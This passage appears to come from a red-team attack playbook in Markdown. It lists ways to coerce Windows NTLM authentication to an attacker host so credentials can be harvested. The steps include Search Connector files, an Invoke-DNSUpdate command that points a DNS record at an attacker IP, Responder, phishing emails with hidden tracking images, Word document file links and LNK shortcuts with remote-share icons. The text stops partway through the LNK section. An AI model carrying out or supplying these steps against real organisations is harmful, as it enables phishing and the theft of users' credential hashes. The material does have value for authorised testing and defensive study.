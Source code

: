 ## Example Attacks


## Attacks
### Social Engineering

* Trigger WebDAV Service (Allows triggering HTTP Authentication, if successful)
	* <details><summary>Resources (Click to expand)</summary><p>
		* Microsoft Ignite: Using the WebDAV Redirector -<br />[https://docs.microsoft.com/en-us/iis/publish/using-webdav/using-the-webdav-redirector](https://docs.microsoft.com/en-us/iis/publish/using-webdav/using-the-webdav-redirector)
	* <details><summary>Search Connector files (Click to expand)</summary><p>
		* Resources
			* [https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/](https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/)
			* [https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)
		* To initiate service, cause a target to open this file (e.g, file share or email)
			* [`Search_Connector_File`](Testaments_and_Books/Redvelations/Windows/Payloads/Search_Connector_File.xml)
* <details><summary>DNS (Click to expand)</summary><p>
	1. Create a new DNS A record (any authenticated user can do it) and point it to your external server
		* PowerMad

				Invoke-DNSUpdate -dnsname <any_name, like "vpn"> -dnsdata <attacker_ip>
	1. On your controlled server `<attacker_ip>`, start Responder and listen for HTTP connections on port 80
	1. Deliver an email with image: `<img src="http://<any_name>.<target's_domain>.<tld>"/>`
		* Optional: make the image 1x1 px or hidden
		* Note that `http://<attacker_DNS_record>` resolves to `<attacker_ip>` (where your Responder is listening on port 80), but only from * inside the offense.local domain
	1. Send the phish to target users from the `<domain>.<tld>` domain
	1. When phish recipients view the email, the user will automatically attempt to load the image from `http://<attacker-ip>`, which * resolves to `http://<attacker_ip>` (where Responder is litening on port 80)
* <details><summary>Word doc with link to attack box (Click to expand)</summary><p>
	
		file:////<attacker_hostname_or_IP>/file-not-actually-hosted.txt
* Malicious file with icon directed at the attacker
	* <details><summary>Tip (Click to expand)</summary><p>
		* Include the additional `.NET` attribute to hide the file from `explorer.exe`

				File.SetAttributes(path, FileAttributes.Hidden);
	* Name file starting with a special character if you want alphabetical sort to show the file first
	* <details><summary>`.LNK` (Click to expand)</summary><p>
		* May auto-download via Chrome/IE, needs testing
		* Examples
			* Example 1: Simple Creation
				1. Copy/paste an LNK file (i.e,. a shortcut file) on a system you have that can currently connect to your attacker box.
				1. Modify the properties of the LNK file so the the icon is targeting a remote share. Specifically, the remote share is the attacker system you have prepared.
					* Note: You'll need the attacker target to be the exact same hostname/IP as you're expecting in the target network. You'll have to repeat this process if you want to change the target.
					* Example Format: `\\<attackerIP>\`
			* Example 2: PowerShell Creation
